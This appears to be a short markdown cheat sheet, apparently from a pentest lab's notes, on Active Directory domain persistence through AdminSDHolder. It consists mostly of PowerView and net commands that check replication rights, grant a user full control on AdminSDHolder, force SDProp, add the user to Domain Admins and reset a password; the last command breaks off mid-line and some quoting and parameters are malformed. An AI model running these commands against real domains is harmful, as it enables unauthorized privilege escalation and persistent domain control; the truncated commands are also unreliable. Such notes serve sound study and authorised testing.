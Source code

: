 ```yaml
---
description: Domain persistence using AdminC
---
```


# 1⃣ AdminSDHolder

### **Check if the student has replication rights**

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "<username>") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

### **Add full control permissions for a user to the adminSDHolder**

```
Add-ObjectAcl -TargetADSprefix ‘CN=AdminSDHolder,CN=System’ PrincipalSamAccountName <username> -Rights All -Verbose
```

### **Run SDProp on AD (Force the sync of AdminSDHolder)**

```
Invoke-SDPropagator -showProgress -timeoutMinutes 1

#Before server 2008
Invoke-SDpropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```



### **Check if user got generic all against domain admins group**

```
Get-ObjectAcl -SamaccountName “Domain Admins” –ResolveGUIDS | ?{$_.identityReference -match ‘<username>’}
```



### **Add user to domain admin group**

```
Add-DomainGroupMember -Identity ‘Domain Admins’ -Members <username> -Verbose
```

or

```
Net group "domain admins" sportless /add /domain
```

### **Abuse Reset Password using powerview\_dev**

```
Set-DomainUserPassword -Identity <username> -AccountPassword (ConvertTo-SecureString "Password@123" -As
```
